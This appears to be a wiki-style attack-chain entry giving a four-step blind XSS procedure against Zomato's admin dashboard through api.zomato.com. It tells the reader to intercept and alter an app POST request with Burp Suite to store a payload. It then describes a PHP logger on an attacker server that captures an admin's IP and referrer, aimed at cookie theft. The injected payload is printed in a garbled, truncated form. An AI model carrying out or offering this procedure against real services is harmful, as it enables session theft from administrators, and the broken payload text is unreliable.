

# Blind XSS Exploitation in Zomato Admin Dashboard for Cookie Theft

Multi-stage attack chain demonstrating a complete blind XSS workflow in Zomato's admin dashboard, leading to potential execution of arbitrary JavaScript in an admin's browser context for data exfiltration.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]

### Target Environment

- Web platform via Android app
- Services: api.zomato.com
- Tech stack: Web application with admin dashboard

### Initial Access Requirements

- Valid user credentials for Zomato application
- Network access to api.zomato.com
- Attacker-controlled server for logging (e.g., with PHP support)

## Detailed Attack Procedures

### Step 1: Login to Application
procedure: [[procedures/Login-to-Zomato-Application]]

**Objective**: Gain authenticated access to the Zomato application to reach the vulnerable function.

**Instructions**: Open the Zomato Android app and log in with valid credentials to access the user interface that allows interaction with the admin dashboard functions.

**Expected Output**: Successful login, dashboard or relevant section accessible.

**Success Indicators**:
- User session established
- Access to POST request endpoints

### Step 2: Inject XSS Payload via Intercepted POST Request
procedure: [[procedures/Inject-XSS-Payload-via-Intercepted-POST-Request]]

**Objective**: Intercept a legitimate POST request and modify it to inject a blind XSS payload that will execute when viewed by an admin.

**Instructions**: Configure Burp Suite to intercept traffic from the Android app. Navigate to the specific function in the app, trigger the POST request to api.zomato.com, intercept it, and modify the POST data to append the payload `'>/zomato.php?c=zomato_xss" />`. Forward the modified request.

**Expected Output**: Modified request sent successfully, payload stored in the backend without immediate execution.

**Success Indicators**:
- Request intercepted and altered without errors
- Payload injection confirmed via response or logs

### Step 3: Set Up PHP Logging Server for XSS Capture
procedure: [[procedures/Set-Up-PHP-Logging-Server-for-XSS-Capture]]

**Objective**: Prepare an attacker-controlled server to log incoming requests triggered by the XSS payload, capturing details like IP and referrer for verification of execution.

**Instructions**: On the attacker's server, create a PHP file named `zomato.php` with code to log the current time, client IP, referrer, and the 'c' parameter to a file named `log.txt` using functions like `date()`, `$_SERVER['REMOTE_ADDR']`, `$_SERVER['HTTP_REFERER']`, `$_GET['c']`, and `file_put_contents`.

**Expected Output**: Server ready, PHP script deployed and accessible at http://<my_server_ip>/zomato.php.

**Success Indicators**:
- PHP file created and server accessible
- Test request logs entry in log.txt

### Step 4: Trigger XSS on Admin Dashboard View
procedure: [[procedures/Trigger-XSS-on-Admin-Dashboard-View]]

**Objective**: Wait for or induce an admin to view the affected section, causing the injected img tag to load and send a request to the attacker's server.

**Instructions**: Notify or wait for an admin to access the dashboard section displaying the injected data. Upon viewing, the XSS payload executes, loading the img src which triggers a GET request to the attacker's server, logging the details.

**Expected Output**: Log entry in log.txt on attacker's server showing the admin's IP, referrer (Zomato dashboard), and parameter.

**Success Indicators**:
- Log file updated with admin's request details
- Confirmation of XSS execution via logged referrer

## Attack Chain Summary

### Key Achievements

1. Successful injection of blind XSS payload into admin-viewable data
2. Deployment of logging server to capture execution evidence
3. Verification of XSS trigger leading to potential cookie theft setup

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
